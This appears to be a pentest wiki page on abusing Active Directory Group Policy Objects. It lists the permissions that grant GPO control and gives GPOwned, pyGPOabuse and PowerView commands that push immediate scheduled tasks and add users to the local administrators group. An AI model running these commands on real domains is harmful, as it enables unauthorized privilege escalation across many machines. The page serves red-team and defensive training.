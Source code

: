 # Group policies

## Theory

"Group Policy" is a management feature of Active Directory. It allows admins to manage computers and users. Group Policy Objetcs (GPOs) make up Group Policies. GPOs are associated to AD objects (sites, domains, organizational units (OUs)).

> Group Policies can include security options, registry keys, software installation, and scripts for startup and shutdown and domain members refresh group policy settings every 90 minutes by default (5 minutes for Domain Controllers). This means that Group Policy enforces configured settings on the targeted computer.
>
> [adsecurity.org](https://adsecurity.org/?p=2716)

In certain scenarios, an attacker can gain control over GPOs. Some ACEs can give that control (see [this BlackHat conf](https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors-wp.pdf), page 28):

* `WriteProperty` to the `GPC-File-Sys-Path` property of a GPO (specific GUID specified)
* `GenericAll`, `GenericWrite`, `WriteProperty` to any property (no GUID specified)
* `WriteDacl`, `WriteOwner`

## Practice

GPO-based attacks can be conducted with [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module), [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) (C#), or [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (python) and [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) for UNIX-like systems.

### Immediate Scheduled Task

An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, a new immediate scheduled task can be created with [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) or added to an existing GPO with [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (Python).

```bash
# GPOwned (buggy, not to use in production) - execute something (e.g. calc.exe)
GPOwned -u 'user' -p 'password' -d 'domain' -dc-ip 'domaincontroller' -gpoimmtask -name '{12345677-ABCD-9876-ABCD-123456789012}' -author 'DOMAIN\Administrator' -taskname 'Some name' -taskdescription 'Some description' -dstpath 'c:\windows\system32\calc.exe'

# pyGPOabuse, update an existing GPO - add a local admin
pygpoabuse 'domain'/'user':'password' -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
```
{% endtab %}

{% tab title="Windows" %}
From Windows, a new immediate scheduled task can be created with [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) module (Powershell). In the following example, a user is added to the local administrators group.

```bash
New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
```

After a successful execution, the scheduled task can be removed with the following command.

```bash
New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
```
{% endtab %}
{% endtabs %}

### Manually adding a user to the local admin group

An attacker can also manually add a user to the local administrator group. This can be achieved with the Group Policy Management Editor.

**Step 1**: create the user

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name: <user>`

**Step 2**: add the user to the local admin group

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name : <Administrators> > Members: Add: <user>`

### Force Group Policy update

Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`.

### Other exploitation paths

In addition to the aforementioned exploitation paths, GPOs can be abused in other ways: leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

### Group Policy Preferences Password

Sometimes, you will find the built-in Administrator's password in a Group Policies.

{% content-ref url="credentials/dumping/group-policies-preferences.md" %}
[group-policies-preferences.md](credentials/dumping/group-policies-preferences.md)
{% endcontent-ref %}

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/" %}

{% embed url="https://adsecurity.org/?p=2716" %}

{% embed url="https://beta.hackndo.com/gpo-abuse-with-edit-settings/" %}

